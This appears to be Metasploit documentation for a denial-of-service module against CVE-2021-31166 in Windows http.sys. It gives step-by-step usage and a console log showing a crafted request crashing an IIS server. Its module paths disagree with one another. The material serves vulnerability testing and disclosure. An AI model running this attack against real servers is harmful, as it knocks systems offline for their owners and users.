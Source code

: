 ## Vulnerable Application
Windows 10 and Windows Server version 20H2 and 2004 servers who do not
have KB5003173 installed to address CVE-2021-31166 are affected.

The vulnerability occurs due to a use-after-free (UAF) bug in `http.sys`'s `UlpParseContentCoding`
function whereby a local `LIST_ENTRY` item has items appended to it but the `LIST_ENTRY` structure
is not `NULL`'d out after it finished being used. An attacker can abuse this to trigger a code path
that free's every entry of the local `LIST_ENTRY` structure, which will be linked to in the `Request`
object this function uses to handle the incoming request. The `Request` object will then be used later
on in the code resulting in a UAF vulnerability.

Note that whilst this exploit tries to target IIS servers, in theory any
component that uses `http.sys` could be vulnerable, including client programs
which use `http.sys` to connect to servers.

The module itself will use this vulnerability to cause a invalid memory access exception error in `http.sys`
by sending a request with a specially crafted `Accept-Encoding` header to the target IIS server. Since
`http.sys` is a kernel module, this will result in a BSOD on the target system. This will cause IIS to go down
for a period of time until the server reboots and IIS restarts again.

## Verification Steps
1. Start `msfconsole`
1. `use exploit/windows/iis/http_sys_accept_encoding_dos_cve_2021_31166`
1. `set RHOST <ip>`
1. `exploit`
1. **Verify** that the target server is down.

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

IP address or hostname of the target IIS server.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

The port on the target server where IIS is running.

### TARGETURI

 - **Optional**
 - Type: **string**
 - Default value: **/**

The base URL of the IIS install on the target server.

## Scenarios

### Windows 10 20H2 Build 19042.685 With IIS Installed
```text
 ~/git/metasploit-framework │ iis_dos_cve2022_21907 ?18  ./msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.1.34-dev-88b17b79fe               ]
+ -- --=[ 2209 exploits - 1171 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can use help to view all
available commands

[*] Starting persistent handler(s)...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166
msf6 auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) > show options
Module options (auxiliary/dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the IIS Server.
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) > set RHOSTS 172.22.216.145
RHOSTS => 172.22.216.145
msf6 auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) > exploit
[*] Running module against 172.22.216.145

[*] Connecting to target to make sure its alive...
[+] Successfully connected to target. Sending payload...
[+] Payload was sent to the target server.
[*] Checking that the server is down...
[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(dos/windows/http/http_sys_accept_encoding_dos_cve_2021_31166) >
```

![Metasploit demonstration](https://mauricelambert.github.io/vulnerability/images/CVE-2021-31166_demo.gif "Metasploit demonstration")
